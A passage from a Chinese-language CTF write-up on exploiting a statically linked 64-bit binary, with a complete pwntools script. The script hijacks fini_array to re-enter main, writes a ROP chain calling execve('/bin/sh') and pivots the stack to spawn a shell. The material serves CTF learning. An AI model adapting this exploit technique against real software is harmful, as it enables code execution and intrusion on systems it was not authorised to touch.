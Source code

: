依据规律知道三个 mov 依次是处理 \_\_libc_start_fini、\_\_libc_start_init、main 。从这里获取到关键参数： \_\_libc_start_fini、main 地址。

然后 gdb 调试，断点打在 \_\_libc_start_fini ，一直运行到 call 指令，rbp 存储的值就是 fini_array[0] 的地址 0x4b80b0 ：

![](https://mrskye.cn-gd.ufileos.com/img/2020-07-07-Fao8iqPT0I2CQDVU.png)

leave_ret 和 ret 通过 ROPgadget 直接能查到；rax、rdi、rsi、rdx 传参 gadget 也能找到，这几个 gadget 找那种只穿一个寄存器的：``pop rax;ret``。

### exp

```python
from pwn import *
context.log_level = 'debug'

p = process("./main")
elf = ELF("./main")

#hijack fini
libc_csu_fini = 0x0402CB0
main_addr = 0x0401C1D
fini_array = 0x4b80b0
esp = fini_array + 0x10
leave_ret = 0x0401cf3
ret = 0x0401016

#execve('/bin/sh',0,0)
rop_syscall = 0x46F745	
rop_pop_rax = 0x0000000000448fcc
rop_pop_rdx = 0x0000000000448415
rop_pop_rsi = 0x0000000000406f80
rop_pop_rdi = 0x0000000000401746
bin_sh_addr = 0x492895

def write(addr,data):
	p.sendlineafter('addr:',p64(addr))
	p.sendafter('data:',data)

# hijack fini_array
gdb.attach(p,'b *0x0402CB0')
write(fini_array,p64(libc_csu_fini) + p64(main_addr))

# rop chain
write(esp,p64(rop_pop_rax))
write(esp+8,p64(0x3b))
write(esp+16,p64(rop_pop_rdi))
write(esp+24,p64(bin_sh_addr))
write(esp+32,p64(rop_pop_rdx))
write(esp+40,p64(0))
write(esp+48,p64(rop_pop_rsi))
write(esp+56,p64(0))
write(esp+64,p64(rop_syscall))

# stack pivoting
#gdb.attach(p)
write(fini_array,p64(leave_ret) + p64(ret))
p.interactive()
```

## 参考文章

* [详解64位静态编译程序的fini_array劫持及ROP攻击](https://www.freebuf.com/articles/system/226003.html)

